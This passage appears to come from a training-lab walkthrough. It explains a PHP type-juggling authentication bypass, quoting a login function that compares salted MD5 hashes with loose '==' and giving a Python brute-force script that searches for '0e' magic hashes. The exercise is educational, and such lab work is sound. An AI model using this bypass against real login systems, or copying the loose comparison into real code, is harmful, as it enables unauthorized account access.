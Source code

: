 This is crucial to notice because there is a type juggling vulnerability in the `login` function (`config.php` lines 20-42) responsible for authentication. Students will notice that on line 37, to compare hashes, the loose comparison operator `==` is used instead of the strict `===`:

```php
function login($user, $password){
    global $conn;

    $sql = "SELECT * FROM users WHERE username=?;";
    $stmt = mysqli_stmt_init($conn);
    if(!mysqli_stmt_prepare($stmt, $sql)){
        echo "SQL Error";
        exit();
    }

    // execute query
    mysqli_stmt_bind_param($stmt, "s", $user);
    mysqli_stmt_execute($stmt);
    $result = mysqli_stmt_get_result($stmt);

    // check result
    if ($row = mysqli_fetch_assoc($result)) {
        if (pw_hash($password) == $row["password"]){
            return True;
        }
    }
    return False;
}
```

Therefore, students need to find a magic hash with the same format as `larry`'s password hash. However, the Github collection of [PHP magic hashes](https://github.com/spaze/hashes) is of no use since the `pw_hash` function in `config.php` (lines 14-18) utilizes the custom salt `it6z` along with the MD5 algorithm to hash passwords:

```php
function pw_hash($password){
    $salt = 'it6z';
    $hash = md5($salt . $password);
    return $hash;
}
```

Thus, students need to create a Python script to find a magic hash with the custom salt (the [for else](https://docs.python.org/3/tutorial/controlflow.html#break-and-continue-statements-and-else-clauses-on-loops) construct is used to find only one magic hash, deleting it will allow yielding more magic hashes):

```python
import hashlib
import re
import string
import itertools

wantedHashesPattern = re.compile(r"^0e([0-9]*)$")
salt = 'it6z'
maxLength = 6
passwordCharacters = string.ascii_letters + string.digits + string.punctuation

for i in range(1, maxLength + 1):
    for password in itertools.product(passwordCharacters, repeat = i):
        password = ''.join(password)
        hashInput = salt + password
        hash = hashlib.md5(hashInput.encode()).hexdigest()
        if wantedHashesPattern.match(hash):
            print(f"{password} ---> {hash}")
            break
```